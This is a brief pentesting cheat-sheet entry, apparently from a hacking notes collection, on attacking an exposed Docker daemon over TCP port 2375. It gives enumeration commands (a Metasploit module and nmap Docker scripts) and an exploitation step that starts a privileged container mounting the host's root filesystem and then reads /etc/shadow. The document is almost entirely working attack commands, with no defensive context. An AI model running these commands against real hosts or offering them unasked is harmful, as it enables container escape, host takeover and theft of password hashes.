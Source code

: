 ## Enumeration
```
    msf> use exploit/linux/http/docker_daemon_tcp
    nmap -sV --script "docker-*" -p <PORT> <IP>
```
## Vuln to exploit

```
    docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
    cat /mnt/etc/shadow
```